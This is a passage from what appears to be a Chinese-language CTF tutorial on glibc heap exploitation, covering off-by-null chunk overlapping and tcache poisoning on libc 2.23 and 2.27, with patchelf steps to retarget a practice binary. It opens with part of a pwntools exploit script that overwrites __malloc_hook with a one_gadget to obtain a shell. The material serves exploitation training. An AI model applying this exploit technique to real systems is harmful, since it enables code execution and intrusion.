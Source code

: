 ````python
info_addr("onegadget",onegadget)
add(2,0x68)
delete(2)
edit(1,p64(malloc_hook-0x23))
add(5,0x68)
add(6,0x68)
edit(6,'\x00'*0xb+p64(onegadget)+p64(realloc+8))
add(1,0x10)
sh.interactive()
````

# libc2.27的利用

libc2.27的利用和libc2.23基本思路是一样的，只不过我们需要多一步填满tcache的操作。这里还是用2.23里面的ABCD四个堆块解释。

![image-20200706225142650](https://i.loli.net/2020/07/07/3yENTexV5nQPBlb.png)

我们的A堆块需要释放到unsorted bin中，如果0x90大小的tcache没有填满的话，其会释放到他cache中，而无法绕过unlink检验。

C堆块的tcache如果不填满的话，当我们释放C堆块时，其也会直接放入tcache中，而不会发生向后合并的操作。

因此根据上面的分析，我们需要将0x90和0x100的tcache提前填充满。

这里还有一点需要注意，在2.27中我们可以使用tcache_poisoning来达到任意地址分配，因此我们的B堆块不需要像在2.23中构造成0x70。OK这里综述一下利用思路。

+ 填满0x90和0xf0堆块
+ 申请ABCD四个堆块
+ 释放A堆块
+ 利用B堆块修改C堆块的的prev_size和prev_inuse位
+ 释放C堆块

OK，off by null我们就实施成功了，实现了chunk overlapping，后面的任意地址分配就需要利用tcache_poisoning了。

## 例题

我们还是利用2.23的程序来练习2.27版本下的利用。这里因为我是在ubuntu16系统下运行的程序，其默认版本是libc2.23，因此我需要更改一下程序的libc版本。需要用到的工具是patchelf，在这篇博客我有对这个工具详细的一个介绍。修改程序为指定libc版本 & pwndbg安装。如果用的是ubuntu18的朋友可以直接跳到EXP编写的部分。

我们先用ldd看一下这个程序的libc和ld。

![image-20200710215557835](https://i.loli.net/2020/07/13/pRlqhC7UifOjEwB.png)

可以看到程序的libc版本和ld依赖的文件，我们现在利用patchelf工具将其修改为2.27的libc和ld。

````bash
$ patchelf --replace-needed  libc.so.6 /glibc/2.27/amd64/lib/libc-2.27.so vuln
$ patchelf --set-interpreter /glibc/2.27/amd64/lib/ld-2.27.so ./vuln
$ ldd ldd vuln
	linux-vdso.so.1 =>  (0x00007ffd38345000)
	/glibc/2.27/amd64/lib/libc-2.27.so (0x00007fcf76185000)
	/glibc/2.27/amd64/lib/ld-2.27.so => /lib64/ld-linux-x86-64.so.2 (0x00007fcf7673d000)
````

用patchelf工具修改后，我们再次用ldd查看程序，libc和ld成功被我们修改为2.27。
